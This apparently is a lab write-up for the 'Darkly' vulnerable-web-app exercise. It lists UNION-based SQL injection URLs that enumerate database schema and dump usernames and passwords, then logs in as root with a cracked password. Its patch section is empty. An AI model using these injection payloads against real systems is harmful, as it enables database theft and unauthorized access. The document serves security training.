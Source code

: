 ## Exploit
http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_SCHEMA,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20TABLE_NAME,COLUMN_NAME%20FROM%20information_schema.columns&Submit=Submit#

http://[Darkly IP]/?page=member&id=5%20UNION%20SELECT%20username,password%20FROM%20Member_Brute_Force.db_default&Submit=Submit#


http://[Darkly IP]/index.php?page=signin&username=root&password=shadow&Login=Login#

## Patch


## Resources

[Crack Hash with crackStation](https://crackstation.net/)

[OWASP SQL INJECTION](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.html)

